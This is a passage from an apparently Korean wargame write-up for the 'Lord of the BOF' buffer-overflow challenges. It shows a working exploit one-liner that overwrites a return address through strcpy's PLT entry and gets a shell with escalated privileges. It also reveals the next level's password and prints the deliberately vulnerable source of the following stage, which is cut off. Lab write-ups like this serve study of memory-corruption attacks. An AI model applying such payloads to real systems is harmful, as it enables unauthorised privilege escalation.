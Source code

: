 음 저 &strcpy 값이 뭔지 궁금했는데, 해보니까 strcpy 함수의 PLT 주소가 나오더라. strcpy의 ret를 AAAA로 초기화해버리기 때문에, 값을 다시 덮어쓰지 않는한 흑마법 사용이 불가능하다. 

그래서 strcpy 함수를 이용하여 ret를 덮어쓰게 하면 됨!

```shell
[succubus@localhost succubus]$ ./nightmare `python -c 'print "A"*44+"\x10\x84\x04\x08"+"AAAA"+"\x80\xfa\xff\xbf"+"\x8c\xfa\xff\xbf"+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA󿍺ÿ¿ɀAAAA
bash$ id    
uid=517(succubus) gid=517(succubus) euid=518(nightmare) egid=518(nightmare) groups=517(succubus)
bash$ my-pass
euid = 518
beg for me
```

~~나..나랑 배그할래? ..ㅈㅅ~~ 

흠 linkin park 뿐만 아니라 Korn도 좋아하시나 보다.





## STAGE 19 : nightmare -> xavius

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - xavius
        - arg
*/

#include <stdio.h>
#include <stdlib.h>
#include <dumpcode.h>

main()
{
	char buffer[40];
	char *ret_addr;

	// overflow!
	fgets(buffer, 256, stdin);
	printf("%s\n", buffer);

	if(*(buffer+47) == '\xbf')
	{
		printf("stack retbayed you!\n");
		exit(0);
	}

	if(*(buffer+47) == '\x08')
        {
                printf("binary image retbayed you, too!!\n");
                exit(0);
        }

	// check if the ret_addr is library function or not
	memcpy(&ret_addr, buffer+44, 4);
	while(memcmp(ret_addr, "\x90\x90", 2) != 0)	// end point of function
	{
		if(*ret_addr == '\xc9'){		// leave
			if(*(ret_addr+1) == '\xc3'){	// ret
				printf("You cannot use library function!\n");
				exit(0);
			}
		}
```